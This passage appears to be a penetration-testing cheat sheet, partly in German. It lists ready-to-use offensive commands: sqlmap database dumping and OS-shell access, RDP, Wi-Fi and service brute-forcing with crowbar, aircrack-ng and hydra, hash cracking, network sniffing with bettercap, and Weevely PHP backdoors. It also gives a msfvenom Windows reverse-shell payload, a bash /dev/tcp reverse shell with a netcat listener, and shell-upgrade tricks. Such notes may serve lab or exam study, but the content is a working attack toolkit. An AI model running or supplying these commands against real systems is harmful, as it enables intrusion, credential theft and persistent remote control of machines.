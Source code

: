  - msfconsole mit mssql_payload
 - SQL MAP bei webpages
     -     Sqlmap -u "URL" --cokie="PHPSESSID=ASDF" {--dbs / -D "DBNAME" - T "TABLENAME" --dump / --os-shell}

### Android
- Port tcp/5555 Open
- Phonesploit

### Cracking:

 - Hash Cracking
     -     hashcat -m 13100 --force -a 0 hash.txt /root/ADtools/rockyou.txt
	
 - RDP Bruteforce:
     -     crowbar -b rdp --server 192.168.10.144/32 -U username.txt -C password.txt 
	
 - WIFI Bruteforce:
     -     aircrack-ng -a2 -b [Target BSSID] -w wordlist.txt wpa2crack-01.cap
	
 - Other Bruteforce (help lists supported service):
     -     hydra -L users.txt -P rockyou.txt service://IP
---
### Session Hijack:

 - Caido -> Register to use windows tool
 - Hetty -> windows tool
 -     bettercap -iface eth0
     -     net.recon on, net.probe on, net.sniff on


---
## Persistence:

Weevely -> generate php backdoors and access them

Windows Reverse Shell: 
    
    msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=8888 -f exe > /root/ADtools/file.exe

Manual bash netcat shell: 

     bash -c "bash -i  >& /dev/tcp/IPADDRESSE/PORT 0>&1"
	 nc -lvnp port

https://www.revshells.com/



- Upgrade to normal shell:
    -     python3 -c 'import pty;pty.spawn("/bin/bash")'
    -     /usr/bin/script -qc /bin/bash /dev/null
    - vim:
        -     :set shell=/bin/sh
        -     :shell
